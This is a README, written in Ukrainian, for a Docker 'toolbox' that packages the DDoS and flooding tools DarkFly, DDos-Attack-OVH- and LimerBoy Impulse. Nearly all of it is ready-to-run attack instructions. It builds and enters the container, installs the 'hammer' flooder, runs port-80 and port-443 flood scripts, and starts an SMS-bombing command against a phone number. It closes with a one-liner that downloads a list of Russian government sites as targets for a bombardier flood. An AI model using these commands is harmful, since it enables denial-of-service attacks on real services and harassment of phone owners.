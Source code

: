 # Вступ

`toolbox` включає:

* https://github.com/Ranginang67/DarkFly-Tool
* https://github.com/HardyTomas/DDos-Attack-OVH-.git
* https://github.com/LimerBoy/Impulse.git

# Користування

[детальний опис](containers/README.md)

(Не обов'язково) будуємо контейнер:

```shell
docker build -t droopy4096/uait-tools -f containers/Dockerfile.toolkit .
```

Заходимо до контейнера:

```shell
docker run --rm -it droopy4096/uait-tools
root@bda7c51682fb:/opt# 
```

тепер використовуємо:

## DarkFly

https://telegra.ph/DDOS-sajta--DarkFly-08-11

консоль DarkFly:

```shell
DarkFly
```

слідуємо `1` потім `16` встановлюємо `hammer` в `/root/hammer.py` далі по вказівках 

## DDos-Attack-OVH-

https://github.com/HardyTomas/DDos-Attack-OVH-

```shell
cd DDos-Attack-OVH-
python3 80port.py
# or
python3 443port.py
```

##  LimerBoy / Impulse 

https://github.com/LimerBoy/Impulse

```shell
cd LimerBoy-Impulse
python3 impulse.py --method SMS --time 20 --threads 15 --target +380123456789
```

# Automated bombardier

декілька `bombardier` за раз:

```shell
tools/bombarder.sh $(curl -s https://raw.githubusercontent.com/UA-IT-Army/aggressor-sites/main/ru/ru_gosuslugi.json | jq -r '. | keys[]')
```